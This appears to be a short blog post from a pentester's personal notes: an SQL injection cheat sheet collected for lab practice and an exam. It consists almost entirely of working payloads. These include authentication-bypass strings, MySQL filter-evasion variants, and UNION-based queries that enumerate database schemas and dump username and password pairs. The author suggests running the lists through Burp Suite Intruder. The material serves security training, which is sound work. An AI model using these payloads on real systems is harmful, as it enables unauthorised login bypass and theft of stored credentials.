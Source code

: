 ```yaml
---
layout: post
title:  "SQL Injection"
date:   2018-11-08 10:00:00 +1100
categories: [sql-injection, security]
permalink: /:title:output_ext
comments: true
---
```


<br>
\-- It's not a guide on SQL Injection but more of a brain dump which I used during the labs and exam.<br>
\-- The easiest way to use it would be put all the strings in a text file and run using Burp Suite's Intruder function(or tab, what ever you call it) to pass the values one by one.

Source: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

Source: https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/

```​
' or 1=1#
' or 1=1– –
' or 1=1/* (MySQL < 5.1)
' or 1=1;%00
' or 1=1 union select 1,2 as `
' or#newline
1='1
' or– -newline
1='1
' /*!50000or*/1='1
' /*!or*/1='1
'||1='1
'&&1='1
'='
'-'
' || 1=1 #
' ooor 1=1 #
​admin' or 1=1-- -
​admin' union select 1-- -
​admin' union select 1,2,3,4-- -
​admin' union select 1,@@version,3,4-- -
​thes')order by 3#

​thes' order by 1-- -
Worked till 4, and got a 500 internal server error for 5. This means we have 4 columns to work with.

​thes' union select all 1,database(),3,4-- -
s' union select all null,database(),null,null-- -
​thes' union select all 1,@@version,3,4-- -
thes' union select all 1,user(),3,4-- -
thes' union select all 1,table_name, table_schema from information_schema.columns,4-- -
​thes' union all select 1,2,concat(name, 0x3A , password),4 from users-- -
thes' union select all 1,table_name,3,4 FROM information_schema.tables-- -
thes' union+select+1,(select+group_concat(username,0x3a,password) from sysadmin.users
thes' union select 1,TABLE_SCHEMA,TABLE_NAME FROM information_schema.tables,4-- -
s' UNION SELECT 1,table_name,3,4 FROM information_schema.tables-- -
f' UNION SELECT 1,table_name,column_name,4 FROM information_schema.tables-- -
f' union select 1,table_name,3,4 from information_schema.tables-- -
f' UNION SELECT 1,table_name, column_name FROM information_schema.columns,4-- -
f' UNION SELECT table_schema,table_name FROM information_schema.tables-- -
f' union select null,table_schema from information_schema.tables,null,null-- -
​f' union select 1,table_name,3,4 from information_schema.tables-- -
​d' union select 1,(select group_concat(username,0x3a,password) from sysadmin.users-- -
d' union select 1,username,3,4 from sysadmin.users-- -
​f' union select null,table_name,null,null FROM information_schema.tables-- -
​thes' union select all 1,table_schema from information_schema.tables-- -
this')union+select+all+1,table_name+from+information_schema.tables+where+table_schema='sysadmin'#
this')union+select+all+1,column_name+from+information_schema.columns+where+table_name='users'#
this')+union+select+1,(select+group_concat(username,0x3a,password)+from+sysadmin.users)#
```

**More References:**

​https://xapax.gitbooks.io/security/content/sql-injections.html<br>
https://information.rapid7.com/sql-injection-cheat-sheet-download.html<br>
https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005)<br>
http://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/<br>
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet<br>
https://pentestmag.com/how-to-train-your-skills-in-sql-injection/<br>
https://www.sqltutorial.org/sql-list-all-tables/<br>
https://chartio.com/resources/tutorials/sql-server-list-tables-how-to-show-all-tables/
